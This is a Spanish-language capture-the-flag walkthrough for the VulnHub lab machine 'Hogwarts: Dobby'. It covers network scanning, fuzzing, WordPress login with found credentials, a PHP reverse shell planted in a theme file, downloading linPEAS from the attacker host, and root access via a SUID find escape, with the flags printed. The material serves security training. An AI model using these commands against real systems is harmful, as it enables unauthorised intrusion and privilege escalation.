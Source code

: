 <h1 align="center">
<br>
  <img src="http://pm1.narvii.com/6428/fb6021f8782bf80369c95fb2940fb77feb9813d0_00.jpg" alt="Front-End Checklist" width="250">
  <br>
  Hogwarts: Dobby
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-dobby,597/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz](#fuzz)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress](#wordpress)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Foothold](#foothold)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [Linpeas](#linpeas)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUID](#suid)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.5```

### Fuzz

Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/FUZZ```

> ⚠️ Importante poner FUZZ alfinal de la URL

Buscando y rebuscando encontramos unas cuantas webs:

* http://192.168.221.5/log
```
#pass:OjppbGlrZXNvY2tz --> ilikesocks
hint --> /DiagonAlley
```
* http://192.168.221.5/alohomora/
```
Draco's password is his house ;)
```
> **slytherin es la casa de Draco Malfoy**

El siguiente ffuf sera para **/DiagonAlley** y descubriremos que es un Wordpress

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/DiagonAlley/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que tenemos un wordpress probamos las credenciales de **draco** como usuario y **slytherin** como contraseña

Explorando podemos ver que podemos editar el **404.php** --> **Editor** --> **Temas en Apariencia**

## Explotación de vulnerabilidades

### Reverse Shell

He utilizado esta [página web](https://www.hackingarticles.in/wordpress-reverse-shell/) para entender como explotar esta vulnerabilidad.

Ademas añado esta otra [página](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) para la reverse shell de php

> Modificar lo necesario de la reverse shell

Lo que procederemos ha hacer es añadir la reverse shell en el texto del **404.php**

Antes de ejecutar la url pondremos el comando para abrir el puerto puesto en la reverse shell:

```rlwrap nc -nvlp 4444```

Posteriormente a esto, haremos que la shell sea interactiva con este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Post-explotación

### Foothold

Nos conectaremos al usuario **dobby** con este comando:

```su dobby```

> La contraseña la hemos sacado anteriormente que es esta **ilikesocks**

Buscaremos la primera flag en el usuario dobby, en esta maquina no podemos utilizar **cat** para leer archivos, asi que he optado por usar el comando **less**

Aquí tenemos la primera flag: **flag1{28327a4964cb391d74111a185a5047ad}**

## Búsqueda de vulnerabilidades

### Linpeas

Utilizaremos el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para enumerar las possibles vulnerabilidades que puede tener ese sistema para la escalada de privilegios.

Para enviar el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) con http usaremos esta forma:

En el **Server/Local** pondremos este comando: ```sudo python3 -m http.server 80```

En el **Cliente/Remota/Victima** pondremos este comando: ```wget 192.168.221.4/linpeas.sh```

## Explotación de vulnerabilidades

### SUID

Una de las mayores vulnerabilidades encontrada por el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) es la escalda de privilegios con el **/usr/bin/find**

He utilizado esta [página web](https://gtfobins.github.io/gtfobins/find/#suid) para sacar un payload con la funcion de bypasear la seguridad y conseguir el root

Pondremos este comando sacado de la anterior página web:

```/usr/bin/find . -exec /bin/sh -p \; -quit```

Y aquí tenemos la segunda flag:
```
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
```

## Información Adicional

Páginas web utilizadas:

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP

- [Wordpress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) - Explotar la vulnerabilidad del wordpress con un código malicioso

- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Enumeración de escalada de privilegios local.

- [SUID](https://gtfobins.github.io/gtfobins/find/#suid) - Escalada de privilegios SUID con el find

**[⬆ back to top](#-----hogwarts-dobby-)**
